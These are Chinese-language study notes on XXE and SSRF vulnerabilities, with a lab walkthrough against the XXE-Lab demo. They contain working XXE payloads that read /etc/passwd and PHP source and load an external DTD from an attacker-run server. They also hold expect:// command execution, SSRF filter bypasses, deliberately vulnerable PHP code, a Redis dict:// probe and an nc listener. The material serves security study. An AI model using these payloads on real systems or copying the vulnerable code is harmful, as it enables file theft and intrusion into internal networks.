

# 知识点

> XML(可扩展标识语言)

- 概念

  - XML是The Extensible Markup Language(可扩展标识语言)的简写
  - XML最初的目的是弥补HTML的不足，后来逐渐用于`网络数据的转换和描述`，`XML`的设计宗旨是`传输数据`,不是显示数据
  - XML在web中的应用已十分广泛。XML是各种应用程序之间`数据传输`最常用的数据格式。

- 与`html`区别

  - `html`是被用来`展示数据`,`xml`是用来`传输数据`

- 语法结构:

  - 分为两部分,一部分是`标签的定义`,一部分是`标签的解释`,标签的解释也成为`DTD`(document type definition)

  - ```DTD
    <?xml version="1.0"?>
    <!DOCTYPE note[>
    <!ELEMENT note (to,from,heading,body)>
    <!ELEMENT from(#PCDATA)>
    <!ELEMENT body (#PCDATA)>
    ]>
    ```

> DTD文档介绍

- 概念:

  - DTD使数据格式之间`按照相同的标准`来`传输`
  - DTD是一种XML`约束模式`语言,用来`解释XML文档`

- 分类:分为`内部DTD文档`和`外部DTD文档`

- 语法结构

  - ```dtd
    //内部dtd文档
    <?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE bookstore [
        <!ELEMENT bookstore (book+)>
        <!ELEMENT book (title, author, year, price)>
        <!ELEMENT title (#PCDATA)>
        <!ELEMENT author (#PCDATA)>
        <!ELEMENT year (#PCDATA)>
        <!ELEMENT price (#PCDATA)>
    ]>
    <bookstore>
        <book>
            <title>XML Developer's Guide</title>
            <author>John Doe</author>
            <year>2023</year>
            <price>29.99</price>
        </book>
        <book>
            <title>Learning XML</title>
            <author>Jane Smith</author>
            <year>2024</year>
            <price>39.99</price>
        </book>
    </bookstore>
    ```

  - ```dtd
    //bookstore.dtd
    <!ELEMENT bookstore (book+)>
    <!ELEMENT book (title, author, year, price)>
    <!ELEMENT title (#PCDATA)>
    <!ELEMENT author (#PCDATA)>
    <!ELEMENT year (#PCDATA)>
    <!ELEMENT price (#PCDATA)>
    ----------------------------------------------
    
    //外部dtd文档
    <?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE bookstore SYSTEM "bookstore.dtd">
    <bookstore>
        <book>
            <title>XML Developer's Guide</title>
            <author>John Doe</author>
            <year>2023</year>
            <price>29.99</price>
        </book>
        <book>
            <title>Learning XML</title>
            <author>Jane Smith</author>
            <year>2024</year>
            <price>39.99</price>
        </book>
    </bookstore>
    
    ```

> XML实体介绍

- 概念:
  - XML语言的`变量`，和PHP、JSP、C语言变量一样，有`变量名`(实体名)、
    `变量值`(实体的值),可以通过`&/%`引用
  - XML实体类型:`普通`实体和`参数`实体，用下表总结两种实体类型:
  - 

> XEE漏洞原理

- XEE漏洞也叫XML外部实体注入,XEE漏洞发生在应用程序`解析xml输入时`,`没有禁止外部实体的加载`,导致可`加载恶意外部文件`
- 漏洞的`产生`:对上传的xml文件`没有进行过滤`,导致可`上传恶意xml文件`
- 漏洞的`危害`:
  - 读取任意文件
  - 执行系统命令
  - 内网端口扫描
  - 攻击内网其它网站
- 漏洞的`防御`和`修复`
  - `禁止使用外部实体`,例如`ibxml_disable_entity_loader(true)`
  - `过滤`用户提交的`xml数据`,防止出现非法内容

> 漏洞利用

- `任意文件读取`

```dtd
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE note[<!ENTITY xxe SYSTEM "file:///c:/windows/win.ini">]>
<name>&xxe;</name>
```

- `远程端口探测`

```dtd
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE note[<!ENTITY xxe SYSTEM "http://ip:探测端口号/test/">]>
<name>&xxe;</name>
```

- `远程命令执行`

```dtd
//前提:php环境中安装了exepect扩展

<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE note[<!ENTITY xxe SYSTEM "expect://系统命令">]>
<name>&xxe;</name>
```

> SSRF漏洞原理

- SSRF(Server-side Request Forgery, 服务端请求伪造)是一种由`攻击者构造`形成由`服务端发起请求`的安全漏洞。一般情况下，SSRF攻击的`目标`是`从外网无法访问的内部系统`。正是因为它是由`服务端发起`的，所以它能够请求到`与它相连而与外网隔离的内部系统`。
- 存在漏洞位置;
  - 分享:通过URL地址分享网页内容
  - 转码服务
  - 在线翻译
  - 图片加载与下载:通过URL地址加载或下载图片
  - 图片、文章收藏功能
  - 未公开的api实现以及其他调用URL的功能
  - 从URL关键字中寻找
- 危害:
  - 端口扫描
  - 内网web应用指纹识别
  - 攻击内网web应用
  - 读取本地文件
- 修复
  - 限制请求的`端口只能为web端口`，只允许访问HTTP和HTTPS的请求
  - 设置`白名单`，或`限制内网IP`，以防止对内网进行攻击
  - 禁止`30x跳转`
  - 屏蔽返回的详细信息
- 相关`危险函数`

```php
/*

SSRF涉及到的危险函数主要是网络访问，支持伪协议的网络读取的函数以PHP为例，涉及到的函数有
file get contents() -- file_get_contents是把文件写入字符串，当把url是内网文件的时候，会先去把这个文件的内容读出来再写入，导致了文件读取
fsockopen()-- fsockopen是打开一个网络连接或者Unix套接字连接
curl_exec() --利用方式很多，最常见的是通过fie、dict、gopher这三个协议来进行渗透
```

> SSRF漏洞利用





> SSRF常见的限制和绕过

   1.限制 http://www.aaa.com 域名

- 采用http基本身份认证的绕过方式，即使用@绕过。如http://www.aaa.com@www.bbb.com@www.ccc.com

- 注意:在对@解析域名中，不同的处理函数存在处理差异。如:在PHP的parse url中会识别www.ccc.com，而libcur则识别为www.bbb.com限制请求IP不为内网地

  - 绕过方法:
  采取短网址绕过，站长工具短网址 http://tool.chinaz.com/tools/dwz.aspx，跳转要去的地址
  3.采取特殊域名，如:xip.io可以指向任意域名，即127.0.0.1.xip.io，可解析为127.0.0.1
  4.采取进制转换。如:127.0.0.1 转换成十六进制 0x7f.0.0.1
  5.采取302跳转，使用302跳转地址
  6.采取短地址

# 实战

> XEE注入


- 打开`bp`进行抓包
- 构造payload

```cmd
POST /doLogin.php HTTP/1.1
Host: 192.168.100.40:56758
Content-Length: 164
Accept: application/xml, text/xml, */*; q=0.01
X-Requested-With: XMLHttpRequest
Accept-Language: zh-CN
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.6478.57 Safari/537.36
Content-Type: application/xml;charset=UTF-8
Origin: http://192.168.100.40:56758
Referer: http://192.168.100.40:56758/
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

<?xml version="1.0"?>
<!DOCTYPE ANY [
<!ENTITY content SYSTEM "file:///etc/passwd">
]>
<user><username>&content;</username><password>admin</password></user>
```


> 内部DTD

```cmd
POST /doLogin.php HTTP/1.1
Host: 192.168.100.40:56758
Content-Length: 200
Accept: application/xml, text/xml, */*; q=0.01
X-Requested-With: XMLHttpRequest
Accept-Language: zh-CN
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.6478.57 Safari/537.36
Content-Type: application/xml;charset=UTF-8
Origin: http://192.168.100.40:56758
Referer: http://192.168.100.40:56758/
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

<?xml version="1.0"?>
<!DOCTYPE abc [
<!ENTITY test SYSTEM "php://filter/read=convert.base64-encode/resource=doLogin.php">
]>
<user><username>&test;</username><password>admin</password></user>
```


- 解密来看看

```php
<?php
/**
* autor: c0ny1
* date: 2018-2-7
*/

$USERNAME = 'admin'; //账号
$PASSWORD = 'admin'; //密码
$result = null;

libxml_disable_entity_loader(false);
$xmlfile = file_get_contents('php://input');

try{
	$dom = new DOMDocument();
	$dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD);
	$creds = simplexml_import_dom($dom);

	$username = $creds->username;
	$password = $creds->password;

	if($username == $USERNAME && $password == $PASSWORD){
		$result = sprintf("<result><code>%d</code><msg>%s</msg></result>",1,$username);
	}else{
		$result = sprintf("<result><code>%d</code><msg>%s</msg></result>",0,$username);
	}	
}catch(Exception $e){
	$result = sprintf("<result><code>%d</code><msg>%s</msg></result>",3,$e->getMessage());
}

header('Content-Type: text/html; charset=utf-8');
echo $result;
?>
```

> 内网探测

```cmd
POST /doLogin.php HTTP/1.1
Host: 192.168.100.40:56758
Content-Length: 217
Accept: application/xml, text/xml, */*; q=0.01
X-Requested-With: XMLHttpRequest
Accept-Language: zh-CN
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.6478.57 Safari/537.36
Content-Type: application/xml;charset=UTF-8
Origin: http://192.168.100.40:56758
Referer: http://192.168.100.40:56758/
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

<?xml version="1.0"?>
<!DOCTYPE abc [
<!ENTITY test SYSTEM "php://filter/read=convert.base64-encode/resource=http://192.168.100.40:56758/">
]>
<user><username>&test;</username><password>admin</password></user>
```


```html
<!doctype html>
<html lang="en">
<head>
	<meta charset="utf-8" />
	<meta http-equiv="X-UA-Compatible" content="IE=edge,chrome=1" />
    <link rel="shortcut icon" href="img/favicon.png" type="image/x-icon">
	
	<title>XXE-Lab</title>

	<meta content='width=device-width, initial-scale=1.0, maximum-scale=1.0, user-scalable=0' name='viewport' />
    <meta name="viewport" content="width=device-width" />

	<link rel="stylesheet" type="text/css" href="css/font.css" />
	<link href="css/bootstrap.min.css" rel="stylesheet" />
	<link href="css/material-bootstrap-wizard.css" rel="stylesheet" />
</head>

<body>
	<div class="image-container set-full-height" style="background-color: #272822;">
	    <!--   Creative Tim Branding   -->
	    <!--   Big container   -->
	    <div class="container" style="width: 970px;">
	        <div class="row">
		        <div class="col-sm-8 col-sm-offset-2">
		            <!--      Wizard container        -->
		            <div class="wizard-container">
		                <div class="card wizard-card" data-color="green" id="wizardProfile">
		                    <form>
		                    	<div class="wizard-header">
		                        	<h3 class="wizard-title">
		                        	   <a href="http://github.com/c0ny1/xxe-lab">XXE-Lab for PHP</a>
		                        	</h3>
									
		                    	</div>
								<div class="wizard-navigation">
									<ul>
			                            <li><a href="#about" data-toggle="tab">tips:</a></li>
			                            <li><a href="javascript:void(0)" ><span style="color:red;" class="msg"></span></a></li>
										<li><a href="javascript:void(0)"></a></li>
			                        </ul>
								</div>

		                        <div class="tab-content">
		                            <div class="tab-pane" id="about">
		                              <div class="row">
		                                	<div class="col-sm-6">
												<div class="input-group" style="margin-left: 30%;">
													<span class="input-group-addon">
														<i class="iconfont icon-icon30" style="font-size:25px;"></i>
													</span>
													<div class="form-group label-floating">
			                                          <label class="control-label">UserName</label>
			                                          <input id="username" name="username" style="width: 200%;" type="text" class="form-control">
			                                        </div>
												</div>
												<div class="input-group" style="margin-left: 30%;">
													<span class="input-group-addon">
														<i class="iconfont icon-mima" style="font-size:25px;"></i>
													</span>
													<div class="form-group label-floating">
													  <label class="control-label">Password</label>
													  <input id="password" name="password" style="width: 200%;" type="password" class="form-control">
													</div>
												</div>
		                                	</div>
		                            	</div>
		                            </div>
		                            
		                            
		                        </div>
		                        <div class="wizard-footer">
		                            <div class="pull-right">
		                                <input type='button' class='btn btn-fill btn-success btn-wd' name='next' value='login' onclick="javascript:doLogin()" />
		                            </div>

		                            <div class="clearfix"></div>
		                        </div>
		                    </form>
		                </div>
		            </div> <!-- wizard container -->
		        </div>
	        </div><!-- end row -->
	    </div> <!--  big container -->

	    <div class="footer">
	        <div class="container text-center">
	             Copyright By <a href="https://etimeci.com">etimeci</a>
	        </div>
	    </div>
	</div>
</body>
<!--   Core JS Files   -->
<script src="js/jquery-2.2.4.min.js" type="text/javascript"></script>
<script src="js/bootstrap.min.js" type="text/javascript"></script>
<script src="js/jquery.bootstrap.js" type="text/javascript"></script>

<!--  Plugin for the Wizard -->
<script src="js/material-bootstrap-wizard.js"></script>

<script src="js/jquery.validate.min.js"></script>
<script type='text/javascript'> 
function doLogin(){
	var username = $("#username").val();
	var password = $("#password").val();
	if(username == "" || password == ""){
		alert("Please enter the username and password!");
		return;
	}
	
	var data = "<user><username>" + username + "</username><password>" + password + "</password></user>"; 
    $.ajax({
        type: "POST",
        url: "doLogin.php",
        contentType: "application/xml;charset=utf-8",
        data: data,
        dataType: "xml",
        anysc: false,
        success: function (result) {
        	var code = result.getElementsByTagName("code")[0].childNodes[0].nodeValue;
        	var msg = result.getElementsByTagName("msg")[0].childNodes[0].nodeValue;
        	if(code == "0"){
        		$(".msg").text(msg + " login fail!");
        	}else if(code == "1"){
        		$(".msg").text(msg + " login success!");
        	}else{
        		$(".msg").text("error:" + msg);
        	}
        },
        error: function (XMLHttpRequest,textStatus,errorThrown) {
            $(".msg").text(errorThrown + ':' + textStatus);
        }
    }); 
}
</script>
</html>
```

> 外部DTD


```cmd
//开一个8000端口
python -m http.server 8000
```


```cmd
POST /doLogin.php HTTP/1.1
Host: 192.168.100.40:56758
Content-Length: 260
Accept: application/xml, text/xml, */*; q=0.01
X-Requested-With: XMLHttpRequest
Accept-Language: zh-CN
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.6478.57 Safari/537.36
Content-Type: application/xml;charset=UTF-8
Origin: http://192.168.100.40:56758
Referer: http://192.168.100.40:56758/
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

<!DOCTYPE root [
  <!ENTITY % test SYSTEM "http://192.168.71.29:8000/Desktop/eval.dtd">
  %test;
  <!ENTITY xxe SYSTEM "php://filter/read=convert.base64-encode/resource=doLogin.php">
]>
<user><username>&xxe;</username><password>admin</password></user>
```

> 无回显的XXE

> ssrf获取正常文件

```php
//2.php
<?php
function curl($url){
    $ch=curl_init();
    curl_setopt($ch, CURLOPT_URL, $url);
    curl_setopt($ch,CURLOPT_HEADER,0);
    curl_exec($ch);
    curl_close($ch);
}
$url=$_GET['url'];
curl($url);
?>
```


> Redis未授权访问


- 确保以上两个虚拟机`同时开启`
- 使用端口扫描工具扫描ip并访问


- 查看是否能够`成功`访问到`redis`服务器

- ```http
  http://192.168.234.170/ssrf3.php?url=http://192.168.234.100
  ```

  


- 利用`dict协议`测试服务器是否开放了`redis`服务

- ```http
  http://192.168.234.170/ssrf3.php?url=dict://192.168.234.100:6379
  ```

  


- 这里我使用`物理机`进行监听


- 监听端口

- ```cmd
  nc -lvp 7777
  ```

  


- `成功监听`,并且获取权限,查看端口号

